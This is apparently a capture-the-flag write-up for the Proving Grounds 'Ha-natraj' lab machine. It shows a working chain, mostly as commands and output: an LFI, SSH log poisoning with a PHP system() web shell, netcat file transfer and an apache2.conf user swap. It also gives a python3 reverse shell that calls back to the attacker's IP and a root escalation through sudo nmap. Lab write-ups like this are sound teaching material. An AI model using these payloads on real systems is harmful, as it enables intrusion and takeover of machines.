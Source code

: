 ```yaml
---
title: "Proving grounds Play: Ha-natraj"
layout: post
date: 2023-09-30 02:00
categories: writeup
---
```


Proving grounds Play - Ha-natraj CTF writeup.

## Nmap

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d99fdaf42e670192d5da7f70d006b392 (RSA)
|   256 bceaf13bfa7c050c929592e9e7d20771 (ECDSA)
|_  256 f0245b7a3bd6b794c44bfe5721f80061 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HA:Natraj
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80/tcp - open  http - Apache httpd 2.4.29 ((Ubuntu))

![img](/assets/images/CTF/Proving_Grounds/Ha-natraj/web.png)

## Directory Fuzzing

```text
http://192.168.151.80/console/
http://192.168.151.80/console/file.php
```
![img](/assets/images/CTF/Proving_Grounds/Ha-natraj/dir.png)

## LFI Vulnerability

![img](/assets/images/CTF/Proving_Grounds/Ha-natraj/lfi.png)

## LFI to SSH Log Poisoning

![img](/assets/images/CTF/Proving_Grounds/Ha-natraj/ssh-log1.png)

**Log Poisoning**

```sh
naveenj@hackerspace:|03:07|~/pg-play/Ha-natraj$ nc -nv 192.168.151.80  22
(UNKNOWN) [192.168.151.80] 22 (ssh) open
SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
naveenj/<?php system($_GET['cmd']); ?>
Protocol mismatch.
```

### Log File

```sh
naveenj@hackerspace:|03:08|~/pg-play/Ha-natraj$ curl "http://192.168.151.80/console/file.php?file=../../../../../../../../../../var/log/auth.log&cmd=whoami"
#auth log
Sep 30 00:07:56 ubuntu sshd[24168]: Bad protocol version identification 'naveenj/www-data' from 192.168.45.204 port 53234 #whoami execution
Sep 30 00:08:01 ubuntu CRON[24169]: pam_unix(cron:session): session opened for user root by (uid=0)
Sep 30 00:08:01 ubuntu CRON[24169]: pam_unix(cron:session): session closed for user root
```

## Initial Foothold

![img](/assets/images/CTF/Proving_Grounds/Ha-natraj/rce.png)

## Privilege Escalation

Enumerate user executable permissions.

```sh
www-data@ubuntu:/var/www/html/console$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/systemctl start apache2
    (ALL) NOPASSWD: /bin/systemctl stop apache2
    (ALL) NOPASSWD: /bin/systemctl restart apache2
www-data@ubuntu:/var/www/html/console$ 
```

List permissions for `/apache2` folder.

```sh
www-data@ubuntu:/var/www/html/console$ cd /etc/apache2
cd /etc/apache2
www-data@ubuntu:/etc/apache2$ ls -al
ls -al
total 88
drwxr-xr-x  8 root root  4096 Jun  3  2020 .
drwxr-xr-x 79 root root  4096 Sep  2  2020 ..
-rwxrwxrwx  1 root root  7224 Mar 13  2020 apache2.conf
drwxr-xr-x  2 root root  4096 Jun  3  2020 conf-available
drwxr-xr-x  2 root root  4096 Jun  3  2020 conf-enabled
-rw-r--r--  1 root root  1782 Jul 16  2019 envvars
-rw-r--r--  1 root root 31063 Jul 16  2019 magic
drwxr-xr-x  2 root root 12288 Jun  3  2020 mods-available
drwxr-xr-x  2 root root  4096 Jun  3  2020 mods-enabled
-rw-r--r--  1 root root   320 Jul 16  2019 ports.conf
drwxr-xr-x  2 root root  4096 Jun  3  2020 sites-available
drwxr-xr-x  2 root root  4096 Jun  3  2020 sites-enabled
www-data@ubuntu:/etc/apache2$ 
```

Change the user configuration of the `apache2.conf` file from `www-data` to the actual system user so when we restart the service we will obtain shell as actual system user.

Check users in the system.

```sh
natraj:x:1000:1000:natraj,,,:/home/natraj:/bin/bash
mahakal:x:1001:1001:,,,:/home/mahakal:/bin/bash
```

Transfer the apache config file to local machine to make the changes using netcat.

Send file.

```sh
www-data@ubuntu:/etc/apache2$ nc 192.168.45.204 1233 < apache2.conf #send
nc 192.168.45.204 1233 < apache2.conf
www-data@ubuntu:/etc/apache2$
```
Receive file.

```sh
naveenj@hackerspace:|03:14|~/pg-play/Ha-natraj/files$ nc -lvnp 1233 >apache2.conf   #receive
listening on [any] 1233 ...
connect to [192.168.45.204] from (UNKNOWN) [192.168.151.80] 47786
```

Do the below changes to the config file.

```conf
#old config
# These need to be set in /etc/apache2/envvars
- User ${APACHE_RUN_USER}
- Group ${APACHE_RUN_GROUP}

#new config
# These need to be set in /etc/apache2/envvars
+ User mahakal
+ Group mahakal
```

Now download the changed config file back to the `/etc/apache2/` folder as `apache2.conf` and restart the apache server.

```sh
www-data@ubuntu:/etc/apache2$ sudo /bin/systemctl restart apache2
sudo /bin/systemctl restart apache2
```

Now run the netcat listener and  obtain the shell, since the apache2 serve is running as `mahakal` the shell for the user will be obtained.

**Reverse Shell Trigger**

```text
http://192.168.151.80/console/file.php?file=../../../../../../../../../../var/log/auth.log&cmd=python3+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("192.168.45.204",1234))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bimport+pty%3b+pty.spawn("bash")'
```

**User: mahakal**

```sh
listening on [any] 1234 ...
connect to [192.168.45.204] from (UNKNOWN) [192.168.151.80] 49014
mahakal@ubuntu:/var/www/html/console$ 
```

Enumerate user executable permissions.

```sh
mahakal@ubuntu:/var/www/html/console$ sudo -l
sudo -l
Matching Defaults entries for mahakal on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mahakal may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/nmap  #user can run nmap as root
mahakal@ubuntu:/var/www/html/console$
```

**Exploitation**

Create a nmap `.nse` script to spawn `/bin/bash` as below and execute it.

```sh
mahakal@ubuntu:/tmp$ echo 'os.execute("/bin/bash")' > script.nse

echo 'os.execute("/bin/bash")' > script.nse
mahakal@ubuntu:/tmp$ 
mahakal@ubuntu:/tmp$ sudo /usr/bin/nmap --script=script.nse
sudo /usr/bin/nmap --script=script.nse

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-30 00:22 PDT
root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/tmp# 
```

**Root Obtained**

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).